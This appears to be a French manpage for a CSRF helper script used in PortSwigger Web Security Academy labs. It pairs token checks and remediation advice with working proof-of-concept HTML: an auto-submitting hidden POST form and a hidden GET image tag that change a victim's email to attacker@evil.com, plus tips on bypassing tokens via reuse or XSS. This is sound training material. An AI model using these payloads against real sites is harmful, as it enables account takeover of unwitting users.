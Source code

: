 # MANPAGE

Voici un exemple exhaustif d’utilisation du script CSRF pour les challenges PortSwigger, avec l’analyse des résultats attendus et des liens directs avec les scénarios classiques des labs :

---

## 1. Recherche de token CSRF dans le formulaire cible

**But** : Vérifier si la page critique (ex : changement d’email) contient un token CSRF.

**Exécution** :
```bash
./script.sh
```
**Sortie attendue** :
```
[1] Recherche de token CSRF dans le formulaire cible
>> [ALERTE] Aucun token CSRF détecté dans le formulaire !
>> PROPOSITION : Implémenter un token CSRF unique par session et vérifié côté serveur.
```
ou
```
[1] Recherche de token CSRF dans le formulaire cible
>> [INFO] Un champ ou paramètre lié au CSRF est présent dans le formulaire.
>> Vérifiez s'il est unique par session/utilisateur et s'il est vérifié côté serveur.
```
**Analyse** :  
- Si aucun token n’est détecté, la fonctionnalité est vulnérable (cas du lab[7]).
- Si un token est détecté, vérifiez sa robustesse (unicité, liaison à la session, vérification serveur).

---

## 2. Génération d’une PoC HTML pour exploitation CSRF (POST)

**But** : Générer un formulaire HTML qui soumet une requête POST vers l’action vulnérable.

**Sortie affichée par le script** :
```html
<!DOCTYPE html>
<html>
  <body>
    <form action="https://<your-lab>.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker@evil.com">
      <!-- Ajoutez ici un champ csrf si nécessaire, ex: <input type="hidden" name="csrf" value="TOKEN"> -->
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
**Étapes pratiques** :
- Collez ce code sur l’exploit server PortSwigger ([7][8]).
- Cliquez sur "View exploit" pour tester sur votre propre session.
- Vérifiez dans l’application que l’email a changé.
- Modifiez l’email pour la version finale destinée à la victime, puis cliquez sur "Deliver to victim" pour valider le lab.

---

## 3. Génération d’une PoC HTML pour exploitation CSRF (GET)

**But** : Tester si l’action critique est vulnérable en GET (rare, mais possible sur certains labs).

**Sortie affichée par le script** :
```html
<!DOCTYPE html>
<html>
  <body>
    <img src="https://<your-lab>.web-security-academy.net/my-account/change-email?email=attacker@evil.com" style="display:none">
  </body>
</html>
```
**Analyse** :
- Si le changement s’effectue simplement en visitant cette page, la protection CSRF est absente ou mal configurée pour la méthode GET ([7]).

---

## 4. Conseils pour la détection et la validation

**Sortie** :
```
[4] Conseils pour la détection et la validation CSRF
- Vérifiez si l'action critique (ex: changement d'email, mot de passe) peut être réalisée sans interaction utilisateur sur le site cible.
- Si le token CSRF n'est pas lié à la session ou à l'utilisateur, testez la réutilisation d'un token d'un autre utilisateur.
- Essayez d'automatiser l'envoi de la requête avec et sans le token, ou avec un token périmé.
- Utilisez Burp Suite > Engagement tools > Generate CSRF PoC pour générer automatiquement une attaque ([1][5][6][8]).
- Pour les labs PortSwigger, placez la PoC sur l'exploit server, cliquez sur 'View exploit' pour tester sur vous-même, puis 'Deliver to victim'.
```
**Analyse** :
- Suivez ces conseils pour valider l’exploitabilité et la robustesse de la protection CSRF.

---

## 5. Conseils avancés (bypass, XSS, etc.)

**Sortie** :
```
[5] Conseils avancés et scénarios particuliers
- Si un XSS est présent, il peut permettre de voler ou de contourner un token CSRF (voir lab XSS/CSRF [2][3]).
- Pour les protections basées sur la méthode, testez POST vs GET.
- Si le token CSRF n'est pas lié à la session, testez la réutilisation inter-utilisateurs.
- Pour automatiser, utilisez Burp Suite Scanner ou Burp Repeater pour rejouer les requêtes avec différents tokens.
```
**Analyse** :
- Pour les labs avancés, combinez XSS et CSRF pour contourner la protection ([2][3]).
- Utilisez Burp Suite pour générer et tester des PoC complexes ([1][5][6][8]).

---

## Synthèse finale

**Sortie** :
```
------------------------------------------------------
[SYNTHÈSE]
1. Vérifiez la présence et la robustesse du token CSRF dans les formulaires et requêtes critiques.
2. Testez les PoC générées sur l'exploit server PortSwigger pour valider l'exploitabilité.
3. Utilisez Burp Suite pour générer des PoC et automatiser les scénarios avancés.
4. Pour chaque alerte, appliquez les recommandations PortSwigger : token unique, vérifié côté serveur, lié à la session/utilisateur, et non réutilisable.
Documentation PortSwigger : https://portswigger.net/web-security/csrf
------------------------------------------------------
```

